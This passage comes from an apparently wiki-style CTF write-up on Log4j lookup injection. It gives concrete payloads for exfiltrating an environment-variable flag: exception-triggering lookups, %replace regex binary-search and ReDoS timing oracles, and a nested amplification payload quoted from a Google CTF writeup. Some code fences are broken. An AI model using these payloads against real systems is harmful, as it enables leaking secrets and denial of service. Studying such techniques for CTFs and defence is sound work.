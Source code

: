 ```

In the CTF, you **couldn't access the stderr** of the java application using log4J, but Log4J **exceptions are sent to stdout**, which was printed in the python app. This meant that triggering an exception we could access the content. An exception to exfiltrate the flag was: **`${java:${env:FLAG}}`.** This works because **`${java:CTF{blahblah}}`** doesn't exist and an exception with the value of the flag will be shown:

![[<../../images/image (1023).png>|]]

### Conversion Patterns Exceptions

Just to mention it, you could also inject new [[https://logging.apache.org/log4j/2.x/manual/layouts.html#PatternLayout|**conversion patterns**]] and trigger exceptions that will be logged to `stdout`. For example:

![[<../../images/image (683).png>|]]

This wasn't found useful to exfiltrate date inside the error message, because the lookup wasn't solved before the conversion pattern, but it could be useful for other stuff such as detecting.

### Conversion Patterns Regexes

However, it's possible to use some **conversion patterns that supports regexes** to exfiltrate information from a lookup by using regexes and abusing **binary search** or **time based** behaviours.

- **Binary search via exception messages**

The conversion pattern **`%replace`** can be use to **replace** **content** from a **string** even using **regexes**. It works like this: `replace{pattern}{regex}{substitution}`\
Abusing this behaviour you could make replace **trigger an exception if the regex matched** anything inside the string (and no exception if it wasn't found) like this:

```bash
%replace{${env:FLAG}}{^CTF.*}{${error}}
# The string searched is the env FLAG, the regex searched is ^CTF.*
## and ONLY if it's found ${error} will be resolved with will trigger an exception
```
```
- **Time based**

As it was mentioned in the previous section, **`%replace`** supports **regexes**. So it's possible to use payload from the [[../regular-expression-denial-of-service-redos.md|**ReDoS page**]] to cause a **timeout** in case the flag is found.\
For example, a payload like `%replace{${env:FLAG}}{^(?=CTF)((.`_`)`_`)*salt$}{asd}` would trigger a **timeout** in that CTF.

In this [[https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/|**writeup**]], instead of using a ReDoS attack it used an **amplification attack** to cause a time difference in the response:

> ```
> /%replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{${ENV:FLAG}}{CTF\{" + flagGuess + ".*\}}{#############################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
```